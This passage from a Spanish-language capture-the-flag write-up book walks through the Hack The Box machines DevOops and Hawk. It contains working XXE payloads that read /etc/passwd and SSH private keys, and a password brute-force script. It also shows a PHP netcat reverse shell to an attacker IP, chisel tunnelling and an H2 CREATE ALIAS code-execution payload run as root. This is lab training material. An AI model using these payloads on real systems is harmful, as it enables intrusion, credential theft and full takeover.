\subsection*{Rootear la maquina de verdad}\label{rootear-la-maquina-de-verdad}}
\addcontentsline{toc}{subsection}{Rootear la maquina de verdad}

Podríamos crear un binario en C con SUID para que lo deposite root en html, lo que nos permitiria rootear la maquina.

\hypertarget{devoops}{%
\chapter*{DevOops}\label{devoops}}
\addcontentsline{toc}{chapter}{DevOops}

\hypertarget{introduccion-12}{%
\section*{Introduccion}\label{introduccion-12}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 05/08/2021 se llama DevOops
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=NGNca3P9Tec}{\includegraphics{https://img.youtube.com/vi/NGNca3P9Tec/0.jpg}}

No olvideis dejar un like al video y un comentario\ldots{}

\hypertarget{enumeracion-12}{%
\section*{Enumeracion}\label{enumeracion-12}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-12}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-12}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-12}{%
\subsubsection*{Ping}\label{ping-12}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.91}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux.
Recordar que en cuanto a ttl se trata 64 = linux y 128 = windows.
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

\hypertarget{nmap-12}{%
\subsubsection*{Nmap}\label{nmap-12}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.91 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,5000 10.10.10.91 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Acceso directorio & Credenciales\tabularnewline
5000 & http & Web, fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analizando-la-web-5}{%
\subsection*{Analizando la web}\label{analizando-la-web-5}}
\addcontentsline{toc}{subsection}{Analizando la web}

\hypertarget{whatweb-8}{%
\subsubsection*{Whatweb}\label{whatweb-8}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.91:5000}
\end{Highlighting}
\end{Shaded}

Nada muy interesante

\hypertarget{http-enum-5}{%
\subsubsection*{http-enum}\label{http-enum-5}}
\addcontentsline{toc}{subsubsection}{http-enum}

Lanzamos un web scan con nmap.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --script http-enum -p5000 10.10.10.91 -oN webScan}
\end{Highlighting}
\end{Shaded}

No nos detecta nada

\hypertarget{chequear-la-web-por-puerto-5000}{%
\subsubsection*{Chequear la web por puerto 5000}\label{chequear-la-web-por-puerto-5000}}
\addcontentsline{toc}{subsubsection}{Chequear la web por puerto 5000}

Con firefox navegamos en la web para ver lo que es.

\begin{itemize}
\tightlist
\item
  Under construction
\item
  la web es una simple imagen
\item
  hablan de \texttt{.py}
\item
  vemos usuarios
\end{itemize}

Como no hay nada interesante vamos a por WFUZZ

\hypertarget{fuzzing-con-wfuzz-4}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-4}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.91:5000/FUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos una ruta \texttt{/feed} y \texttt{/upload}. Lo chequeamos en firefox.

\hypertarget{chequeamos-la-ruta-upload}{%
\subsubsection*{Chequeamos la ruta upload}\label{chequeamos-la-ruta-upload}}
\addcontentsline{toc}{subsubsection}{Chequeamos la ruta upload}

Vemos una pagina que nos permite uploadear ficheros. Parece que tenemos que uploadear ficheros XML que tiene que tener los elementos
siguientes:

\begin{itemize}
\tightlist
\item
  Author
\item
  Subject
\item
  Content
\end{itemize}

Huele a \textbf{XXE} pero primero tratamos de ver si podemos uploadear ficheros de otro tipo.

creamos ficheros

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  fichero \textbf{txt}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{vi}\NormalTok{ test.txt}

\ExtensionTok{EEEEEEE}
\end{Highlighting}
\end{Shaded}
\item
  fichero \textbf{php}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{vi test.php}

\NormalTok{<}\OtherTok{?}\NormalTok{php}
    \KeywordTok{echo} \StringTok{"EEEEEEEEEEE"}\OtherTok{;}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Cuando los uploadeamos no se ve nada. No sabemos si la web nos subio los archivos o no. Intentamos con un fichero XML

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{vi test.xml}

\KeywordTok{<elements>}
    \KeywordTok{<Author>}\NormalTok{S4vitar}\KeywordTok{</Author>}
    \KeywordTok{<Subject>}\NormalTok{EEEEEEEEE}\KeywordTok{</Subject>}
    \KeywordTok{<Content>}\NormalTok{EEEAEAEAAAEAAEAE}\KeywordTok{</Content>}
\KeywordTok{</elements>}
\end{Highlighting}
\end{Shaded}

Lo uploadeamos y ahora vemos que el Blogpost a sido processado, vemos los elementos \textbf{Author} \textbf{Subject} \textbf{Content} y que lo a guardado en
\texttt{/home/roosa/deploy/src} y que la url para \textbf{later reference} es \texttt{/uploads/test.xml}

Si miramos lo que hay en \texttt{http://10.10.10.91:5000/upload/test.xml} vemos el contenido de nuestro fichero XML

\hypertarget{evaluacion-de-vulnerabilidades-12}{%
\section*{Evaluacion de vulnerabilidades}\label{evaluacion-de-vulnerabilidades-12}}
\addcontentsline{toc}{section}{Evaluacion de vulnerabilidades}

\hypertarget{xxe}{%
\subsection*{XXE}\label{xxe}}
\addcontentsline{toc}{subsection}{XXE}

Si la web nos reporta el contenido de un campo XML, los attackantes pueden approvechar de una \emph{ENTITY} para remplazar el campo reportado
por el contenido de un fichero interno de la maquina.

En este caso, vemos que el campo \textbf{Author} esta reportado en la web y le indicamos que queremos ver el contenido del \texttt{/etc/passwd} en su lugar.

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?xml}\NormalTok{ version="1.0" encoding="ISO-8859-1"}\KeywordTok{?>}
\DataTypeTok{<!DOCTYPE }\NormalTok{foo }\DataTypeTok{[}
  \DataTypeTok{<!ELEMENT}\NormalTok{ foo ANY }\DataTypeTok{>}
  \DataTypeTok{<!ENTITY}\NormalTok{ xxe SYSTEM }\StringTok{"file:///etc/passwd"} \DataTypeTok{>]>}
\KeywordTok{<elements>}
    \KeywordTok{<Author>}\DecValTok{&xxe;}\KeywordTok{</Author>}
    \KeywordTok{<Subject>}\NormalTok{EEEEEEEEE}\KeywordTok{</Subject>}
    \KeywordTok{<Content>}\NormalTok{EEEAEAEAAAEAAEAE}\KeywordTok{</Content>}
\KeywordTok{</elements>}
\end{Highlighting}
\end{Shaded}

Uploadeamos el fichero y si vamos en \texttt{http://10.10.10.91:5000/upload/nombre-del-fichero.xml} vemos que podemos ver el contenido del \texttt{/etc/passwd} de la
maquina.

Como hemos visto que havia un usuario llamado \textbf{roosa}, intentamos ver si tiene un fichero \texttt{id\_rsa}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?xml}\NormalTok{ version="1.0" encoding="ISO-8859-1"}\KeywordTok{?>}
\DataTypeTok{<!DOCTYPE }\NormalTok{foo }\DataTypeTok{[}
  \DataTypeTok{<!ELEMENT}\NormalTok{ foo ANY }\DataTypeTok{>}
  \DataTypeTok{<!ENTITY}\NormalTok{ xxe SYSTEM }\StringTok{"file:///home/roosa/.ssh/id_rsa"} \DataTypeTok{>]>}
\KeywordTok{<elements>}
    \KeywordTok{<Author>}\DecValTok{&xxe;}\KeywordTok{</Author>}
    \KeywordTok{<Subject>}\NormalTok{EEEEEEEEE}\KeywordTok{</Subject>}
    \KeywordTok{<Content>}\NormalTok{EEEAEAEAAAEAAEAE}\KeywordTok{</Content>}
\KeywordTok{</elements>}
\end{Highlighting}
\end{Shaded}

Despues de subir este nuevo fichero podemos ver la id\_rsa del usuario roosa.

\hypertarget{explotacion-de-vulnerabilidad-ganando-acceso-12}{%
\section*{Explotacion de vulnerabilidad \& Ganando Acceso}\label{explotacion-de-vulnerabilidad-ganando-acceso-12}}
\addcontentsline{toc}{section}{Explotacion de vulnerabilidad \& Ganando Acceso}

\hypertarget{conexion-por-ssh-1}{%
\subsection*{Conexion por SSH}\label{conexion-por-ssh-1}}
\addcontentsline{toc}{subsection}{Conexion por SSH}

Como ya tenemos una id\_rsa nos conectaremos como el usuario roosa

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{chmod}\NormalTok{ 600 id_rsa}
\FunctionTok{ssh}\NormalTok{ -i id_rsa roosa@10.10.10.91}
\end{Highlighting}
\end{Shaded}

Ya estamos conectados como Roosa y podemos leer la flag.

\hypertarget{escalada-de-privilegios-11}{%
\section*{Escalada de privilegios}\label{escalada-de-privilegios-11}}
\addcontentsline{toc}{section}{Escalada de privilegios}

\hypertarget{rootear-la-maquina-8}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-8}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -la}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Aqui vemos que el usuario roosa esta en el grupo sudo pero no tenemos su contraseña. Listando los ficheros del usuario \textbf{roosa}
vemos que hay muchos ficheros, lo analizamos mas en profundidad.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{find}\NormalTok{ \textbackslash{}-type f }\OperatorTok{2>}\NormalTok{/dev/null}
\FunctionTok{find}\NormalTok{ \textbackslash{}-type f }\OperatorTok{2>}\NormalTok{/dev/null }\KeywordTok{|} \FunctionTok{grep}\NormalTok{ -v }\StringTok{".local"}
\end{Highlighting}
\end{Shaded}

Aqui no llama la atencion un directorio que contiene un \texttt{.git}. Sabiendo que repositorios \textbf{git} contienen un historico de tratamiento
de ficheros nos dirigimos en este proyecto y miramos el historico de comits.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ work/blogfeed/}
\FunctionTok{ls}\NormalTok{ -la}
\FunctionTok{git}\NormalTok{ log}
\end{Highlighting}
\end{Shaded}

mirando el historico, vemos un mensaje un poco turbio \textbf{reverted accidental commit with proper key}

miramos lo que a passado en este commit. Nos copiamos el identificador del commit.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ log -p 33e87c312c08735a02fa9c796021a4a3023129ad}
\end{Highlighting}
\end{Shaded}

Aqui vemos que han borrado un key para ponerle otra. La copiamos y de la misma manera que con el usuario roosa, intentamos conectarnos como
root por ssh.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ -i id_rsa2 root@10.10.10.91}
\end{Highlighting}
\end{Shaded}

Y hemos podido entrar\ldots{} Ya podemos examinar la flag.

\hypertarget{hawk}{%
\chapter*{Hawk}\label{hawk}}
\addcontentsline{toc}{chapter}{Hawk}

\hypertarget{introduccion-13}{%
\section*{Introduccion}\label{introduccion-13}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 05/08/2021 se llama Hawk
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=lL1_9JiUy-k}{\includegraphics{https://img.youtube.com/vi/lL1_9JiUy-k/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-13}{%
\section*{Enumeracion}\label{enumeracion-13}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-13}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-13}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-13}{%
\subsubsection*{Ping}\label{ping-13}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.102}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-13}{%
\subsubsection*{Nmap}\label{nmap-13}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.102 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,5000 10.10.10.102 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
21 & ftp & Accesso por anonymous &\tabularnewline
22 & ssh & Accesso directorio & Credenciales\tabularnewline
80 & http & Web, fuzzing &\tabularnewline
5435 & tcpwrapped & &\tabularnewline
8082 & http & Web, fuzzing &\tabularnewline
9092 & XmlIpcRegSvc & &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{conneccion-como-anonymous-al-servicio-ftp}{%
\subsection*{Conneccion como anonymous al servicio FTP}\label{conneccion-como-anonymous-al-servicio-ftp}}
\addcontentsline{toc}{subsection}{Conneccion como anonymous al servicio FTP}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ftp}\NormalTok{ 10.1.10.102}
\ExtensionTok{Name}\NormalTok{: anonymous}
\end{Highlighting}
\end{Shaded}

Mirando los ficheros con \texttt{ls\ -la} encontramos un fichero occulto llamado \texttt{.drupal.txt.enc}. Lo descargamos en nuestra
maquina de attackante.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -la}
\BuiltInTok{cd}\NormalTok{ messages}
\FunctionTok{ls}\NormalTok{ -la}
\ExtensionTok{get}\NormalTok{ .drupal.txt.enc}
\end{Highlighting}
\end{Shaded}

\hypertarget{analyzando-el-fichero-.drupal.txt.enc}{%
\subsection*{Analyzando el fichero .drupal.txt.enc}\label{analyzando-el-fichero-.drupal.txt.enc}}
\addcontentsline{toc}{subsection}{Analyzando el fichero .drupal.txt.enc}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mv}\NormalTok{ .drupal.txt.enc drupal.txt.enc}
\FunctionTok{cat}\NormalTok{ drupal.txt.enc}
\end{Highlighting}
\end{Shaded}

Aqui vemos que el contenido del fichero esta encodeado en base64.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ drupal.txt.enc }\KeywordTok{|} \FunctionTok{xargs} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{' '} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d}\KeywordTok{;} \BuiltInTok{echo}
\end{Highlighting}
\end{Shaded}

Aqui el contenido parece ser un binario. La mejor cosa que hacer en estas situaciones seria guardarlo en un nuevo fichero

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ drupal.txt.enc }\KeywordTok{|} \FunctionTok{xargs} \KeywordTok{|} \FunctionTok{tr}\NormalTok{ -d }\StringTok{' '} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d}\KeywordTok{;} \BuiltInTok{echo} \OperatorTok{>}\NormalTok{ drupal}
\FunctionTok{rm}\NormalTok{ drupal.txt.enc}
\FunctionTok{mv}\NormalTok{ drupal dupal.txt.crypted}
\end{Highlighting}
\end{Shaded}

Ahora podemos mirar que typo de fichero es.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ drupal.txt.crypted}
\FunctionTok{strings}\NormalTok{ drupal.txt.crypted}
\FunctionTok{file}\NormalTok{ drupal.txt.crypted}
\end{Highlighting}
\end{Shaded}

El commando file nos muestra que el fichero a sido encryptado por openssl con una contraseña.

\hypertarget{desencrypcion-del-ficher-drupal.txt.crypted}{%
\subsection*{Desencrypcion del ficher drupal.txt.crypted}\label{desencrypcion-del-ficher-drupal.txt.crypted}}
\addcontentsline{toc}{subsection}{Desencrypcion del ficher drupal.txt.crypted}

El problema en este caso es que para leer el fichero necessitamos:

\begin{itemize}
\tightlist
\item
  una contraseña
\item
  el modo de cifrado utlizado para encryptar
\end{itemize}

Aqui tendriamos que intentar multiples modo de cifrado pero buscando por internet, vemos quel mas commun seri el \texttt{aes-256-cbc}

En modo de ejemplo, estas serian la lineas para encryptar y desencryptar un fichero con openssl:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Encrypcion
  \texttt{bash\ \ openssl\ aes-256-cbc\ -in\ fichero\ -out\ fichero.crypted\ -k\ password123}
\item
  Desencrypcion

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{openssl}\NormalTok{ aes-256-cbc -d -in fichero.crypted -out fichero -k password123}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

La idea aqui es crearnos un script \texttt{bruteforce.sh} que nos permitte encontrar la contraseña.

\hypertarget{vulnerability-assessment}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{crack-ssl-password}{%
\subsection*{Crack ssl password}\label{crack-ssl-password}}
\addcontentsline{toc}{subsection}{Crack ssl password}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\KeywordTok{function}\FunctionTok{ ctrl_c()}\KeywordTok{\{}
    \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n[!] Saliendo...\textbackslash{}n"}
    \BuiltInTok{exit}\NormalTok{ 1}
\KeywordTok{\}}

\CommentTok{#Ctrl+C}
\BuiltInTok{trap}\NormalTok{ ctrl_c INT}

\KeywordTok{for} \ExtensionTok{password}\NormalTok{ in }\VariableTok{$(}\FunctionTok{cat}\NormalTok{ /usr/share/wordlists/rockyou.txt}\VariableTok{)}\KeywordTok{;} \KeywordTok{do}
    \ExtensionTok{openssl}\NormalTok{ aes-256-cvc -d -in drupal.txt.crypted -out drupal.txt -k }\VariableTok{$password} \OperatorTok{2>}\NormalTok{/dev/null}

    \KeywordTok{if}\BuiltInTok{ [} \StringTok{"}\VariableTok{$(}\BuiltInTok{echo} \VariableTok{$?)}\StringTok{"} \OtherTok{==} \StringTok{"0"}\BuiltInTok{ ]}\NormalTok{; }\KeywordTok{then}
        \BuiltInTok{echo}\NormalTok{ -e }\StringTok{"\textbackslash{}n[+] La password es }\VariableTok{$password}\StringTok{\textbackslash{}n"}
        \BuiltInTok{exit}\NormalTok{ 0}
    \KeywordTok{fi}
\KeywordTok{done}
\end{Highlighting}
\end{Shaded}

Lanzamos el script y vemos la contraseña. Mirando el contenido del ficher drupal.txt vemos un mensaje con una contraseña del portal.

\hypertarget{analyzamos-el-portal}{%
\subsection*{Analyzamos el Portal}\label{analyzamos-el-portal}}
\addcontentsline{toc}{subsection}{Analyzamos el Portal}

Hablando de portal, pensamos en la web. Nmap nos dio 2 puertos donde el servicio es http. el \textbf{80} y el \textbf{8082}
Con firefox navigamos en la web para ver lo que es.

\begin{itemize}
\tightlist
\item
  El puerto 80 es el login de l'applicacion drupal
\item
  El puerto 8082 es un H2 Console con una regla \textbf{remote connections (`webAllowOthers') are disabled}
\end{itemize}

Aqui ya pensamos en technicas de port forwarding para el puerto 8082 y savemos que tenemos que ir a por el puerto 80.

En el login del puerto 80 intentamos

\begin{itemize}
\tightlist
\item
  admin:admin
\item
  admin:password
\item
  admin:PencilKeyboardScanner123
\end{itemize}

Y la contraseña que hemos encontrado en el contenido del fichero \texttt{drupal.txt} functionna.

\hypertarget{vuln-exploit-gaining-access}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{conneccion-por-druppal}{%
\subsection*{Conneccion por Druppal}\label{conneccion-por-druppal}}
\addcontentsline{toc}{subsection}{Conneccion por Druppal}

Para ejecutar commandos o mejor dicho, para ganar accesso al systema desde un admin panel de drupal siempre es el mismo.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En modules, habilitar el componente PHP Filter

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/drupal-phpfilter} \caption{Drupal - habilitar PHP Filter}\label{fig:unnamed-chunk-24}
   \end{figure}
\item
  Crear un nuevo contenido

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/drupal-new-article} \caption{Drupal - Nuevo articulo}\label{fig:unnamed-chunk-25}
   \end{figure}
\item
  Ponernos en escucha en el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  En drupal añadir en el body

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php} \FunctionTok{system}\OtherTok{(}\StringTok{"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"}\OtherTok{);} \KeywordTok{?>}
\end{Highlighting}
\end{Shaded}
\item
  En Text Format le ponemos a \textbf{PHP code}
\item
  Le damos al boton Preview
\end{enumerate}

Ya hemos ganado accesso al systema como el usuario \emph{www-data}

\hypertarget{tratamiento-de-la-tty-9}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-9}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{analyzamos-la-maquina}{%
\subsection*{Analyzamos la maquina}\label{analyzamos-la-maquina}}
\addcontentsline{toc}{subsection}{Analyzamos la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -l}
\BuiltInTok{cd}\NormalTok{ /home}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ /daniel}
\FunctionTok{cat}\NormalTok{ user.txt}
\end{Highlighting}
\end{Shaded}

Aqui encontramos un usuario \textbf{daniel} y tenemos derechos de escritura. Ya podemos visualizar la flag. Lo mas probable aqui
seria de convertirnos directamente en el usuario root.

\hypertarget{privilege-escalation}{%
\section*{Privilege Escalation}\label{privilege-escalation}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-9}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-9}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

Algo que hemos visto, es que el puerto \textbf{8082} no se podia ver por reglas definidas en el systema.
Como ya hemos pensado en technicas de port forwarding, installamos \textbf{Chisel}.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Descarga de chisel y build

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/jpillora/chisel}
\BuiltInTok{cd}\NormalTok{ chisel}
\ExtensionTok{go}\NormalTok{ build -ldflags }\StringTok{"-w -s"}\NormalTok{ .}
\ExtensionTok{upx}\NormalTok{ chisel}
\FunctionTok{chmod}\NormalTok{ +x chisel}
\end{Highlighting}
\end{Shaded}
\item
  Enviamos chisel a la maquina victima

  \begin{itemize}
  \item
    en la maquina de attackante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
  \item
    en la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /tmp}
\FunctionTok{wget}\NormalTok{ http://10.10.14.8/chisel}
\FunctionTok{chmod}\NormalTok{ +x chisel}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  En la maquina de attackante creamos un servidor

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./chisel}\NormalTok{ server --reverse --port 1234}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina victima creamos un cliente

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./chisel}\NormalTok{ client 10.10.14.8:1234 R:8082:127.0.0.1:8082}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ahora en firefox si vamos a la url \texttt{http://localhost:8082} ya podemos ver el contenido de la web.

Si pinchamos en preferencias y despues en \textbf{Permitir conexiones desde otros ordenadores} ya podemos navigar desde la
url \texttt{http://10.10.10.102:8082}.

Aqui vemos un mensaje Wrong user name or password. Esto puede passar si la \textbf{URL JDBC} ya esta en uso.
si cambiamos la url \texttt{jdbc:h2:\textasciitilde{}/test} por \texttt{jdbc:h2:\textasciitilde{}/EEEEEE} y pinchamos el boton conectar, Entramos en el
panel de control H2 database.

Si en la shell buscamos con el commando \texttt{ps\ -faux} y buscamos el servicio \textbf{h2} vemos que el servicio a sido lanzado por
el usuario root. Quiere decir que si ejecutamos commandos desde la consola h2, lo lanzariamos como usuario root.

Buscamos si existe un exploit para H2 console

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ h2 consola}
\ExtensionTok{searchsploit}\NormalTok{ h2 database}
\end{Highlighting}
\end{Shaded}

Encontramos un exploit en python que permitiria ejecutar \textbf{Alias Arbitrary Code execution}. Lo analyzamos:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -x 44422}
\end{Highlighting}
\end{Shaded}

Mirando el exploit, vemos que tenemos que crear un alias en el cual podemos podemos utilizar para ejecutar commandos. En este caso
no necessitamos utilizar el exploit. Podemos copiar las partes que nos interessa en el panel H2.

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{CREATE}\NormalTok{ ALIAS EXECVE }\KeywordTok{AS}\NormalTok{ $$ String execve(String cmd) throws }\KeywordTok{java}\NormalTok{.io.IOException \{ }\KeywordTok{java}\NormalTok{.util.Scanner s }\OperatorTok{=} \KeywordTok{new}\NormalTok{ \textbackslash{}}
\KeywordTok{java}\NormalTok{.util.Scanner(Runtime.getRuntime().}\KeywordTok{exec}\NormalTok{(cmd).getInputStream()).useDelimiter(}\OtherTok{"\textbackslash{}\textbackslash{}\textbackslash{}\textbackslash{}A"}\NormalTok{); }\KeywordTok{return}\NormalTok{ s.hasNext() ? s.}\KeywordTok{next}\NormalTok{() : }\OtherTok{""}\NormalTok{;  \}$$;}

\KeywordTok{CALL}\NormalTok{ EXECVE(}\StringTok{'whoami'}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

Aqui vemos \textbf{root}. Pues aqui lanzamos el commando para que la \texttt{/bin/bash} sea SUID

\begin{Shaded}
\begin{Highlighting}[]
